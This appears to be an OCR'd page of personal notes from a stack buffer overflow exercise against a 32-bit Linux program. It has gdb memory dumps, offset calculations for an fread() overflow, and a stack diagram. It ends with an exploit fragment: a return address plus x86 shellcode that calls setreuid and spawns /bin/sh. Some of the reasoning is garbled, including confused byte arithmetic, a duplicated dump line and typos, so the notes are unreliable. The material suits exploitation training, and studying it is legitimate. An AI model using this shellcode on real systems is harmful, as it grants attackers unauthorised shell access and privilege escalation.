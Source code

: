 
          -----------(gdb) x/32x 0xbffffb30-----------(128 bytes)
          0xbffffb30:     0xbffffcdc      0x00000000      0x00000000      0x00401373
          0xbffffb40:     0x00000000      0xbffffb60      0xbffffbe0      0xb7f82ef2
          0xbffffb50:     0xbffffbd4      0x00000002      0x00000000      0xb7f82ef2
          0xbffffb60:     0x00000002      0xbffffbd4      0xbffffbe0      0xb7fff090
          0xbffffb70:     0x00000011      0x00000000      0xb7f82ed0      0x00403fbc
          0xbffffb80:     0xb7ffea20      0xb7ffec40      0x0000000       0x004010fd
          0xbffffb90:     0x0040135d      0x00000002      0xbffffbd4      0x00401000
          0xbffffba0:     0x004013f1      0x00000000      0xb7fc675b      0x00000000
          0xbffffba0:     0x004013f1      0x00000000      0xb7fc675b      0x00000000

⚠️ RECALL: size_t bytes_read = fread(msg, 1, size, file)

          -----------(gdb) x/32x msg----------- (8*4*4 = 128 bytes of msg)
          0xbffffa98:     0x00000000      0x00000000      0x00000000      0x00000000
          0xbffffaa8:     0x00000000      0x00000000      0x00000000      0x00000000
          0xbffffab8:     0x00000000      0x00000000      0x00000000      0x00000000
          0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
          0xbffffad8:     0x00000000      0x00000000      0x00000000      0x00000000
          0xbffffae8:     0x00000000      0x00000000      0x00000000      0x00000000
          0xbffffaf8:     0x00000000      0x00000000      0x00000000      0x00000000
          0xbffffb08:     0x00000000      0x00000000      0x00000000      0x00000000 
          //#end@b08, so RIP@0xbffffb2c not far, (2c-08 = 4=24 bytes)
          
          -----------(gdb) x/32x '1'----------- don't care, we know len(1) == 4 bits == 1 byte
          ---(gdb) x/32x size--- passed/don't care now, memory @ 0xffffffff in 'file' with byte size 4*3*4 = 48
          
so I will need 
          
          len(meg)+len('1')+len(128 + 4 + 48 'A')
          
to overflow fread().

### EXPLOIT PARTS:

#### Stack Diagram :

              [4] RIP of main                                
              [4] SFP of main                                
              [n] compiler padding unknown bytes n
              *now in display*
              [4] RIP orbit(@ , value @ ) 
              [4] SFP orbit(@ )                    
              [m] compiler padding unknown bytes m
              [8] char buf (buffer)

#### Exploit :
   
    rip = "\x30\xfb\xff\xbf"
    size = "\xff"
    shellcode = \
    "\x6a\x32\x58\xcd\x80\x89\xc3\x89\xc1\x6a" + \
    "\x47\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f" + \
    "\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50" + \
    "\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
    #editing #bytes_read = fread(msg, 1, size, file)
